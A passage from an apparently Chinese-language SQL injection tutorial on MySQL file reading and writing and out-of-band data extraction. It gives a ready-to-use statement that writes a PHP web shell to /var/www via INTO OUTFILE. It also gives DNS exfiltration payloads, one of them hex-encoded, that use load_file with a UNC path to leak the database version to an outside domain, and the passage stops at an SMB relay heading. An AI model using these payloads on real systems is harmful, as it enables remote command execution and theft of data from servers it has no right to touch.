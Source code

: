 3. 读文件最大的为1047552个byte, @@max_allowed_packet可以查看文件读取最大值

**写文件**

INTO OUTFILE/DUMPFILE

经典写文件例子：

To write a PHP shell:

```
SELECT '&lt;? system($_GET['c']); ?&gt;' INTO OUTFILE '/var/www/shell.php';
```

这两个函数都可以写文件，但是有很大的差别 

INTO OUTFILE函数写文件时会在每一行的结束自动加上换行符 

INTO DUMPFILE函数在写文件会保持文件得到原生内容，这种方式对于二进制文件是最好的选择 

当我们在UDF提权的场景是需要上传二进制文件等等用OUTFILE函数是不能成功的 

网上有很多文章介绍，比如[这篇](http://www.cnblogs.com/milantgh/p/5444398.html)

注意点： 

1. INTO OUTFILE不会覆盖文件 

2. INTO OUTFILE必须是查询语句的最后一句 

3. 路径名是不能编码的，必须使用单引号

<br>

**带外通道**

关于带外通道的注入前段时间国外的大佬已经总结过了，我基本复现了一下，博客有文章，这里简单提一下

**什么是带外通道注入？**

带外通道攻击主要是利用其他协议或者渠道从服务器提取数据. 它可能是HTTP（S）请求，DNS解析服务，SMB服务，Mail服务等.

**条件限制**

首先不用多说,这些函数是需要绝对路径的

如果secure_file_priv变量为空那么直接可以使用函数,如果为null是不能使用

但在mysql的5.5.53之前的版本是默认为空,之后的版本为null,所有是将这个功能禁掉了

**DNS注入**



```
select load_file(concat('\\',version(),'.rootclay.club\clay.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874));
```

上面的语句执行的结果我们可以通过wireshark抓包看一下，过滤一下DNS协议即可清晰看到数据出去的样子，如下图

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01553fbd77cc3d7e90.png)

进行DNS注入需要域名解析，自己有的话最好，但是没有的朋友也没事，这里推荐一个网站CEYE可以查看数据

**SMB Relay 注入攻击**
